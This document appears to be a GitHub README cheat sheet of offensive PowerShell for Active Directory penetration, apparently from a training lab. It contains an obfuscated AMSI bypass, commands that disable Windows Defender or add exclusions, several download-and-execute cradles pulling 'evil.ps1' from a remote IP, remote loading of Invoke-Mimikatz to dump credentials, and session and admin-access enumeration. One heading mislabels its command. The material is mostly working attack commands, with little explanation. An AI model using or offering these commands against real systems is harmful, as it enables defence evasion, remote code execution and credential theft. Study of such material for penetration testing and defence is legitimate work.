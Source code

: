 # PowerShell Scripts and Enumeration Techniques

This repository contains various PowerShell commands and scripts used for domain enumeration, local admin access, AMSI bypass, and other security-related tasks. Below are examples and explanations of various techniques that may be useful for penetration testing, system administration, and security auditing.

## 1. Domain Information Retrieval

### Command to Retrieve Domain Information

```bash
C:\Users\Naveen>cmd /c "hostname & whoami & ipconfig & whoami /priv"
```

### "Native executables and .NET classes:

```powershell
PS C:\Users\student157> [System.Net.Dns]::GetHostByName(($env:computerName))
PS C:\Users\student157> $ADClass = [System.DirectoryServices.ActiveDirectory.Domain]
PS C:\Users\student157> $ADClass::GetCurrentDomain()
```

## 2. PowerShell Script Execution Examples

### Loading PowerShell Scripts

- Load a PowerShell script using dot sourcing:
  ```powershell
  PS . C:\AD\Tools\Powershell.ps1
  ```

- Import a module:
  ```powershell
  Import-Module <modulename>.psd
  ```

- List all commands in a module:
  ```powershell
  Get-Command -Module <modulename>
  ```

### Get Help for PowerShell Commands

- Get help for `Get-NetGroup`:
  ```powershell
  get-help Get-NetGroup
  get-help Get-NetGroup -examples
  get-help Get-NetGroup -full
  get-help Get-NetGroup -detailed
  show-command Get-NetGroup
  Update-Help
  ```

## 3. Exclusion Adding for Specific Paths

### Add Exclusion Path for Anti-Virus

```powershell
powershell -inputformat none -outputformat none -NonInteractive -Command "Add-MpPreference -ExclusionPath 'C:\AD'"
```

### Script Block Example for Disabling AMSI

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + (("{1}{0}"-f'1','blE:')+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a'))  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## 4. Disabling Anti-Virus Real-Time Protection

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## 5. PowerShell Script Execution Bypass

- Bypass Execution Policy:
  ```powershell
  powershell -ep bypass
  powershell -ExecutionPolicy bypass
  ```

- Run PowerShell command with encoded string:
  ```powershell
  powershell -encodedcommand <encoded_command>
  ```
### Enumerate Sessions on Any Machine

```powershell
PS C:\AD\Tools> Get-NetSession -ComputerName dcorp-dc.dollarcorp.moneycorp.local
```

## 7. Remote Script Execution

### Loading PowerShell Scripts Remotely

- Using `iex` (Invoke-Expression) for remote script execution:
  ```powershell
  iex (New-Object Net.WebClient).DownloadString('http://192.168.230.1/evil.ps1')
  ```

### Download and Execute Remote Payload

```powershell
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1')
$ie=New-Object -ComObject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response
PSv3 onwards:  -iex (iwr 'http://192.168.230.1/evil.ps1')
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex $h.responseText

$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader] ($r.GetResponseStream())).ReadToEnd()
```

## 6. Finding Local Admin Access

### Enumerate Local Admin Access

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-stud157.dollarcorp.moneycorp.local
PS C:\AD\Tools> . .\Find-WMILocalAdminAccess.ps1
PS C:\AD\Tools> Find-WMILocalAdminAccess -ComputerFile .\computers.txt
```

### Checking for Domain Admin Sessions

```powershell
PS C:\AD\Tools> Invoke-UserHunter -Verbose   
PS C:\AD\Tools> Invoke-UserHunter -Verbose -GroupName "rdpusers"
PS C:\AD\Tools> Invoke-UserHunter -CheckAccess
PS C:\AD\Tools> Invoke-UserHunter -stealth
```

## 8. Language Modes in PowerShell

PowerShell has four language modes:

- No Language
- Constant Language
- Restricted Language
- Full Language Mode

## 9. Finding Local Admin Access on Specific Machines

```powershell
PS C:\AD\Tools> Find-LocalAdminAccess
PS C:\AD\Tools> Invoke-CheckLocalAdminAccess -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```

## 10. Disable Firewall Incoming Connections

- Disable firewall incoming connections to allow reverse shell:
  ```powershell
  Set-MpPreference -DisableRealtimeMonitoring $true
  ```

## 11. Using `Invoke-Mimikatz` for Credential Dumping

### Load and Execute Mimikatz

```powershell
iex (iwr http://172.16.100.157/Invoke-Mimikatz.ps1 -UseBasicParsing)
```

- Dump hashes using Mimikatz:
  ```powershell
  Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess
  ```

## 12. Handling Application Control (AppLocker)

- Enum AppLocker policies:
  ```powershell
  Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
  ```
